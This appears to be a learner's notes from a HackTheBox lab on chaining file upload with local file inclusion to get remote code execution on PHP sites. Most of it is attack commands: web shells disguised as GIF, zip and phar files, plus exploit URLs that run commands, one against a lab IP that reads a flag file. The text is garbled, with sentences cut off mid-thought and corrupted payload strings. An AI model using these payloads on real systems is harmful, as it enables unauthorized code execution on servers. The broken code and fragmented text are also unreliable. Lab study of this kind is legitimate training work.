 attack we are going to discuss in this section, we do not require the file upload form to be vulnerable, but merely allow us to upload files. If the vulnerable function has code `Execute` capabilities, then the code within the file we upload will get executed if we include it, regardless of the file extension or file type


we can upload an image file (e.g. `image.jpg`), and store a PHP web shell code within it 'instead of image data', and if we include it through the LFI vulnerability, the PHP code will get executed and we will have remote code execution.

the following are the functions that allow executing code with file inclusion, any of which would work with this section's attacks:

|**Function**|**Read Content**|**Execute**|**Remote URL**|
|---|:-:|:-:|:-:|
|**PHP**||||
|`include()`/`include_once()`|✅|✅|✅|
|`require()`/`require_once()`|✅|✅|❌|
|**NodeJS**||||
|`res.render()`|✅|✅|❌|
|**Java**||||
|`import`|✅|✅|✅|
|**.NET**||||
|`include`|✅|✅|✅|

---

## Image upload

#### Crafting Malicious Image

```bash
AhmaDb0x@htb[/htb]$ echo 'GIF8<?pystem($_GET["cmd"]); ?>' > shell.gif
```

However, if we combine it with an LFI vulnerability, then we may be able to reach remote code execution.

>**Note:** We are using a `GIF` image in this case since its magic bytes are easily typed, as they are ASCII characters, while other extensions have magic bytes in binary that we would need to URL encode. However, this attack would work with any allowed image or file type. The [File Upload Attacks](https://academy.hackthebox.com/module/details/136) module goes more in depth for file type attacks, and the same logic can be applied here.

#### Uploaded File Path
Once we've uploaded our file, all we need to do is include it through the LFI vulnerability.

To include the uploaded file, we need to know the path to our uploaded file. In most cases, especially with images, we would get access to our uploaded file and can get its path from its URL. In our case, if we inspect the source code after uploading the image, we can get its URL:
```html
<img src="/profile_images/shell.gif" class="profile-image" id="profile-image">
```

If we do not know where the file is uploaded, then we can fuzz for an uploads directory, and then fuzz for our uploaded file, though this may not always work as some web applications properly hide the uploaded files.

With the uploaded file path at hand, all we need to do is to include the uploaded file in the LFI vulnerable function, and the PHP code should get executed
```bash
http://<SERVER_IP>:<PORT>/index.php?language=./profile_images/shell.gif&cmd=id
```
>`../` out of that directory and then use our URL path, as we learned in previous sections.


```bash
http://83.136.252.13:57109/index.php?language=./profile_images/shell.gif&cmd=cd%20/%20;%20ls%20;%20cat%202f40d853e2d4768d87da1c81772bae0a.txt
```

## Zip Upload
To do so, we can start by creating a PHP web shell script and zipping it into a zip archive (named `shell.jpg`), as follows:

```shell-session
AhmaDb0x@htb[/htb]$ echo '<?pstem($_GET["cmd"]); ?>' > shell.php && zip shell.jpg shell.php
```

>Even though we named our zip archive as (shell.jpg), some upload forms may still detect our file as a zip archive through content-type tests and disallow its upload, so this attack has a higher chance of working if the upload of zip archives is allowed.

Once we upload the `shell.jpg` archive, we can include it with the `zip` wrapper as (`zip://shell.jpg`)

```bash
http://<SERVER_IP>:<PORT>/index.php?language=zip://./profile_images/shell.jpg%23shell.php&cmd=id
```

page (`index.php`) is in the main directory.

## Phar Upload
we can use the `phar://` wrapper to achieve a similar result. To do so, we will first write the following PHP script into a `shell.php` file:
```php
<?php
$phar = new Phar('shell.phar');
$phar->startBuffering();
$phar->addFromString('shell.txt', '<?pstem($_GET["cmd"]); ?>');
$phar->setStub('<?php __HALT_COMPILER(); ?>');

$phar->stopBuffering();
```

compiled into a `phar` file that when called would write a web shell to a `shell.txt` sub-file, which we can interact with. We can compile it into a `phar` file and rename it to `shell.jpg` as follows:
```bash
AhmaDb0x@htb[/htb]$ php --define phar.readonly=0 shell.php && mv shell.phar shell.jpg
```
>a phar file called `shell.jpg`.

call it with `phar://` and provide its URL path, and then specify the phar sub-file with `/shell.txt`

```bash
http://<SERVER_IP>:<PORT>/index.php?language=phar://./profile_images/shell.jpg%2Fshell.txt&cmd=id
```

the first method we discussed is the most reliable among the three

----
https://book.hacktricks.wiki/en/pentesting-web/file-inclusion/lfi2rce-via-phpinfo.html


